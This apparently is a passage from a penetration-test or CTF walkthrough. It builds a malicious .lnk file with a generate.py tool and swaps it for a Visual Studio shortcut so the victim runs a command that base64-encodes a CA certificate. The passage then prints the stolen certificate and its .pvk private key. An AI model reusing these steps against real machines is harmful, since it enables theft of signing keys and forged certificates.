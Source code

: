 ```
               2 Dir(s)   8,437,514,240 bytes free

On Kali: 
root@kali: python generate.py --host localhost --type ntlm --output out.lnk --execute '"C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" base64 -in D:\certs\MyCA.cer > C:\users\public\desktop\shortcuts\MyCA.cer.b64'

Repeat the process to get the lnk on the box and replace the Visual Studio one then wait and grab the contents of the file.

c:\windows\system32\inetsrv>type C:\users\public\desktop\shortcuts\MyCA.cer.b64
MIIDADCCAeigAwIBAgIQIPZoDPLffoVFfuI8gqFGajANBgkqhkiG9w0BAQsFADAQ
MQ4wDAYDVQQDEwVNeSBDQTAeFw0xODA3MDEyMTI2MzlaFw0zOTEyMzEyMzU5NTla
MBAxDjAMBgNVBAMTBU15IENBMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
AQEAnc1wfJAWkLGTZkTOLPigFzO5Wp+4Q6DtGHO3SxHubY3ru3caRm8y4Y5LHtlY
jc9ZP5BStiYsVtnqzJY1H+SxweLPQvpHYjSC54ZpMEt1AHKhuE9o9+2qdfNonRtK
/xLa2qcov0prPPs9LTkde5xIWw7fplAmrpvkVf4yfgSrmactNLoZby/lnG+nhsT5
j4ICZIGogo+Icn/eTy7UPCdRdfkOdzAHBX6xQfH6g/p7HGtPigH9rs4ia1cND6J+
NuPAuuLlMxpbSYE5Q1Gq8sRKdYnTMK9RfLnxa+N78qqR8R/MYr/RR4lKr2klwQm4
jWno4wAlqirjW5W7LDmBOsstNQIDAQABo1YwVDAPBgNVHRMBAf8EBTADAQH/MEEG
A1UdAQQ6MDiAEKuZwosHXc04qkkMrVgOXvShEjAQMQ4wDAYDVQQDEwVNeSBDQYIQ
IPZoDPLffoVFfuI8gqFGajANBgkqhkiG9w0BAQsFAAOCAQEAaJWYGIP0vCruQ7WP
43P0vFuwCmSLUYM+Edz+kQGBifhBnNsU+klJ18TWwazRGE4c72oAF+gNCAvfFKIq
2pbGUWaKnPzEO0znCg4pgdEIGHjNTePYngL0h76ItFlGOr4YttOIROflpk1dR6Cp
/1PwEOxZZ/9Kr9h1GVDiz2vcQW2VA8ALcgY584SKUkuKhE8Mqao78hU87e4dgXQL
KkqlkMYo7XeFa5MYZpiXCQNQNQIp1l7wAiA6mdaURtG6+PSoLZel8101iXYQbZUn
FAAiPQJ0lYyqerYP1tXtoSGUUEquiZFif3iU3VGA57L2repPbNIqOSOEmd47ZXT5
K9WXgA==


Repeat for the pvk file:

c:\windows\system32\inetsrv>type C:\users\public\desktop\shortcuts\MyCA.pvk.b64
HvG1sAAAAAACAAAAAAAAAAAAAACUBAAABwIAAAAkAABSU0EyAAgAAAEAAQA1Lcs6
gTksu5Vb4yqqJQDj6GmNuAnBJWmvSolH0b9izB/xkarye+Nr8bl8Ua8w04l1SsTy
qlFDOYFJWxoz5eK6wOM2fqIPDVdrIs6u/QGKT2sce/qD+vFBsX4FBzB3Dvl1USc8
1C5P3n9yiI+CqIFkAoKP+cSGp2+c5S9vGbo0LaeZqwR+Mv5V5JuuJlCm3w5bSJx7
HTktPfs8a0q/KKfa2hL/ShudaPN1qu33aE+4oXIAdUswaYbngjRiR/pCz+LBseQf
NZbM6tlWLCa2UpA/Wc+NWNkeS47hMm9GGne7641t7hFLt3MY7aBDuJ9auTMXoPgs
zkRmk7GQFpB8cM2dcZKSZIFgfu9cfUwrnXbTQC2BzNdRgmJGHW+KXCFns7ve/Cfh
UUSEOwv+aZwivMWic+lUA3MbVE73k5SrWWAa8HfhyRGeVkClWynddhknlufRz3VT
owT8YoHrpOey+EJ48NX5kbb/lIL0qTzd4DtWbLDSI1oW+Cj3hiuQ1unQU7wF4Ukf
7jv7zghW6Bp6LoUBFd9Dxw0Irs/aVRPyLWKv1Smk7rdiZ+Ym6/upHuLBaak4L/rM
qvzeT+hoV9JkdOckXA54tEf0SYoamH2+mFwSgmenHjdHEPjKOC1FJOGacC/bKB4z
iw0AoLPAwoK+ld57HMo1mexAEfvwua3rT6WB1pHtuKszTcsw2llLlAk3C2OU8sJS
+XPjsy4564WZZJurWx10vlhPUpdKTGbF/QV+5b02FQiyR5HkWBtqKHRVyEdZB0l5
VFFUXWZBzYc//AqSfPZg19VcrGS2B8rU6oK/5dA4djw9oeYzpQDD5q6z/GlGrLCt
iwGht0fcUveev2+20QfAHkGMmK1l9ymFdABCxLxQ3RbsaRwFffzwIO7hICSjIPwP
8Lfl9SbLP1TqUhfmcWhDPNgBjvgI2HuiXOTOjqgo+ML8AP4t5ctAOV3idNqGA+8o
QfqbZIwXW8t3DhRMOQ+y+7kZAG+0Tl4W+64Z+WbpV5NQ4Lh5zSDmy0H3NookmLbM
k/+6gRKfzGSnvlxR8+yngqaJoCYziE/+F3k293lHyGz7swQ+/Pgn4VnKXJPJTHwM
Gh7npszdDimChYLZhdo8VKSPdIe1aBcwzlxWhKe8zU39ktBCVB6COH+X2rRlNXiv
vvvesEbLeD0y2vFxjWxCT1IcNMSe+NWLrRLVV1FlLtjTp+uIk8158Et7Mi5/i2h3
ic+SiTxnQceaA9VJHLXEp3yO7hKMEpH9amU41EtFVStmiRoO3S3Bv3gGmZNKxZGJ
aocRCf2Rc0AjRB2xbshYFx4hCpDPdXCZRzDIjJjxQEfl1rLxQqA5rz3/3K8SyJSL
S79t8hzxlqwZvuMkL8LJzJi4m9Bt9sc2IxMdka4oAHAvKNpoOi6fZKINibMP69xK
g7lubG3/Aft9LYH2DpSSt00WyPIqFIscvOqkzrBlJHW4Dj65gsdsBqKIvb0hdfpf
myOjgtyxIuox7xHZOTg0TjoOnw1oMAdlBLaDfRz91TDwdd5N6T83QXLy3gY=
```
